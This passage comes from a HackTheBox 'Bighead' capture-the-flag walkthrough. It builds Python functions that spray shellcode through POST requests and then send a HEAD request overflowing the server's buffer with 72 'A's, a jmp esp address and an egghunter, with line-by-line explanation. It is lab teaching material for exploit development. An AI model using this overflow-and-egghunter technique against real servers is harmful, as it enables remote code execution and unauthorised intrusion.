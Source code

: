 ```
	for i in range(0,16):
		s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
		s.connect((host,port))
		s.send("POST / HTTP/1.1\r\n")
		s.send("Host: dev.bighead.htb\r\n")
		s.send("Content-Length: %s\r\n"%len(shellcode))
		s.send("\r\n")
		s.send(shellcode+"\r\n")
		s.send("\r\n")
		print '\033[34m' + '[' + str(N) + '] ' + re.sub(r"\s"," ",s.recv(12))
		s.close()
		N += 1
	print "\033[32m [*] Done"
```
![](/images/hackthebox/bighead/80.png)
<br> That's for `send_shellcode`, let's write `send_egghunter`. We will define the function first :
`def send_egghunter(host,port,egghunter):`
<br> Then we will open a TCP stream socket to the server and the port and hold it in a variable called `s` :
`s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)`
<br> Then we will connect and send the HEAD request :
```
s.connect((host,port))
s.settimeout(None)
s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
s.send("Host: dev.bighead.htb\r\n")
s.send("\r\n")
```
<br> I did `settimeout(None)` as the server takes a lot of time to respond to this request (Because we will change the code flow so the server won't reply) and we don't want the stream to be closed before our egghunter is successfully executed.
<br> `s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")` This line sends 72 A's then `f0125062` (jmp esp (new EIP)) then the egghunter. 
`send_egghunter` :
```
def send_egghunter(host,port,egghunter):
	print "\033[32m [*] Sending EggHunter"
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
	s.connect((host,port))
	s.settimeout(None)
	s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
	s.send("Host: dev.bighead.htb\r\n")
	s.send("\r\n")
	print '\033[34m' + re.sub(r"\s"," ",s.recv(12))
	s.close()
	print "\033[32m [*] Done"
```